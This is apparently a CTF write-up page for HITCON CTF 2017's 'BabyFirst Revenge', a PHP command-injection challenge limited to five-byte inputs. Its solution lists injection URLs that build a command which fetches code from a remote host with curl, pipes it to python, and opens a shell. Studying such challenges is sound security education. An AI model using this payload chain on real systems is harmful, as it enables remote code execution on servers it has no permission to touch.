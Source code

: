 
## **BabyFirst Revenge**
  
Difficulty: **★☆**  
Solved: **95 / 1541**  
Tag:  **WhiteBox**, **PHP**, **Command Injection**  

#### Idea

* Command Injection, but only in **5** bytes  

#### Source Code

* [index.php](hitcon-ctf-2017/babyfirst-revenge/index.php)  

#### Solution

```bash
# generate `ls -t>g` to file "_"
http://host/?cmd=>ls\
http://host/?cmd=ls>_
http://host/?cmd=>\ \
http://host/?cmd=>-t\
http://host/?cmd=>\>g
http://host/?cmd=ls>>_

# generate `curl orange.tw|python` to file "g"
http://host/?cmd=>on
http://host/?cmd=>th\
http://host/?cmd=>py\
http://host/?cmd=>\|\
http://host/?cmd=>tw\
http://host/?cmd=>e.\
http://host/?cmd=>ng\
http://host/?cmd=>ra\
http://host/?cmd=>o\
http://host/?cmd=>\ \
http://host/?cmd=>rl\
http://host/?cmd=>cu\
http://host/?cmd=sh _

# got shell
http://host/?cmd=sh g
```

You can check the [exploit.py](hitcon-ctf-2017/babyfirst-revenge/exploit.py) for the detail! And there are also lots of creative solutions, you can check the write ups below.


#### Write Ups

* [HITCON CTF 2017-BabyFirst Revenge-writeup](https://chybeta.github.io/2017/11/04/HITCON-CTF-2017-BabyFirst-Revenge-writeup/)  
* [HITCON CTF 2017-BabyFirst Revenge-writeup (Via curl)](http://www.jianshu.com/p/82788b6949c7)  
* [HITCON 2017 CTF BabyFirst Revenge](https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/)  
* [HITCON CTF 2017 - BabyFirst Revenge (172 pts.)](https://kimtruth.github.io/2017/11/06/HITCON-CTF-2017-BabyFirst-Revenge-172-pts/)  
* [Hitcon CTF 2017 - Baby Revenge](https://theromanxpl0it.github.io/ctf_hitcon2017/babyrevenge/)  
* [Hitcon CTF 2017 Quals: Baby First Revenge (web 172) (Via xxd)](https://losfuzzys.github.io/writeup/2017/11/06/hitconctf-babyfirstrevenge/)  
* [HITCON CTF 2017 BabyFirst Revenge & v2 writeup](https://findneo.github.io/2017/11/HITCON-CTF-2017-Babyfirst-Revenge-series-writeup/)  
* [BabyFirst-Revenge-HITCOIN-2017-QUALS by @n4p5ter](https://github.com/n4p5ter/BabyFirst-Revenge-HITCOIN-2017-QUALS)  
